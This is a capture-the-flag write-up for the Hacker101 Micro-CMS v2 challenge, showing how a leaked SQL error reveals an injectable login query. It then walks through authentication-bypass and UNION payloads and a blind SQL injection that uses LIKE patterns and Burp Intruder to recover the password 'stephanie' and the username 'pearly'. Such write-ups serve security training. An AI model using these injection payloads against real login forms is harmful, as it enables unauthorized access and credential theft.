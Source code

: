 # Micro-CMS v2

The Changelog shows the security fixes in v2
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/Hacker101/Micro-CMSv2/src/1.png" alt="1" />
</p>

As said, editing pages require an admin login
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/Hacker101/Micro-CMSv2/src/2.png" alt="1" />
</p>

### SQLi vulnerability

By putting a **'** in the login fields an error shows up
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```

We find that
- The backend db is MariaDB, a MySQL like
- MariaDB is connected to python2.7 in file main.py with do_login( )
- The query is the following
```python
'SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')
```

A simple auth bypass results in an **Invalid password**
```
username = ' or 1=1#
password = t
```
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/Hacker101/Micro-CMSv2/src/3.png" alt="1" />
</p>

Otherwise in an **Unknown user**
```
username = ' or 1=2#
password
```
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/Hacker101/Micro-CMSv2/src/4.png" alt="1" />
</p>

The code evaluates True or False since the [execute](https://dev.mysql.com/doc/connector-python/en/connector-python-api-mysqlcursor-execute.html) method returns a Boolean value

We can bypass the auth as
```
username = ' union select 'ab' as password#
password = ab
```
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/Hacker101/Micro-CMSv2/src/5.png" alt="1" />
</p>

but the comment suggests to find a real username/password combination to get the flag

### Blind SQLi

We got no output but we can modify the query itself!

The [LIKE](https://duckduckgo.com/?t=ffab&q=like+sql+w3school&ia=') operator allows to match a pattern for the valid password

We can get **fist** and **last** character as
```
username = ' or password LIKE "x%"#
username = ' or password LIKE "%x"#
```
Where
- **%** matches zero, one or more characters
- **x** will be a char payload in Burp's Intruder

Following [python formatting](https://pyformat.info/) the query will match **x** if password contains it

Since **%** is filtered, it will be replaced with **%%** by the **replace('%', '%%')**

We find **e** as last character and **s** as first


We can get password **length** as
```
username = ' or length(password) "%y"#
```
Where
- **y** will be an int payload in Burp's Intruder

We find **9** as length filtering the results for "Invalid password"

Then the final query will be
```
username='or password like 's§_§§_§§_§§_§§_§§_§§_§e'#&password=a
```
Where
- **s** is the first character
- **_** matches one character
- **e** is the last character

We find password **stephanie**
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/Hacker101/Micro-CMSv2/src/6.png" alt="1" />
</p>


At the same way find the corresponding username with
```
username='or password='stephanie' and length(username)= §y§#&password=a
username='or password='stephanie' and username like '§_§§_§§_§§_§§_§§_§''#&password=a
```
We find username **pearly**
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/Hacker101/Micro-CMSv2/src/7.png" alt="1" />
</p>

By logging with **pearly:stephanie** we get the flag!
